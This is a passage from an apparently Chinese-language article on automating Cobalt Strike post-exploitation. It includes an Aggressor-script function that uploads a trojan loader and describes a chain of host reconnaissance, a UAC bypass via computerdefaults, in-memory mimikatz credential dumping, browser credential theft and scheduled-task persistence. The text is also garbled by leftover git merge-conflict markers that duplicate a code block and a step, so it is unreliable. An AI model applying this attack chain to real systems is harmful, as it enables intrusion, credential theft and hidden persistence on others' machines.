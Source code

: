 其中 `NormalUser_Chain` 执行流程如下：

1.  上传木马到指定目录：
    
<<<<<<< HEAD
    ```plain
    sub UP_Loader {
        bcd($1, $LoaderPath);
        blog($1,"\c9开始上传 Loader");
        bupload($1, script_resource("/scripts/".$LoaderName));
        blog($1, "\c8Loader 文件上传完成");
        blog($1, "\c8Loader文件位置：$LoaderFullPath");
    }
    ```
    
2.  调用 `readbof` 函数加载 BOF 并执行 whoami、ipconfig、screenshot ；
=======
    ```bash
    sub UP_Loader {
        bcd($1, $LoaderPath);
        blog($1,"\c9 开始上传 Loader");
        bupload($1, script_resource("/scripts/".$LoaderName));
        blog($1, "\c8Loader 文件上传完成");
        blog($1, "\c8Loader 文件位置：$LoaderFullPath");
    }
    ```
    
2.  调用 `readbof` 函数加载 BOF 并执行 whoami、ipconfig、screenshot；
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
    
3.  调用 `inlineExecute-Assembly` 函数执行 SharpHunter 工具的 sys 参数获取主机基本信息；
    
4.  调用 `inlineExecute-Assembly` 函数通过 SharpHostInfo 扫描当前 C 端主机信息。
    

而 `BypassUAC` 调用 `inlineExecute-Assembly` 函数执行 SharpBypassUAC 工具通过 `computerdefaults` 技术以及编码后的木马路径进行 UAC 绕过，并上线管理器权限 Session。

最后 `OnlyAdmin_Chain` 执行流程如下：

1.  调用 `inlineExecute-Assembly` 函数执行 SharpKatz 工具内存中加载 mimikatz 获取主机凭据；
2.  执行 Pillager BOF 程序不落地的情况下收集主机浏览器、软件、账户凭据等敏感信息；
3.  调用 `inlineExecute-Assembly` 函数执行 SharpSchTask 工具进行隐蔽权限维持。

<<<<<<< HEAD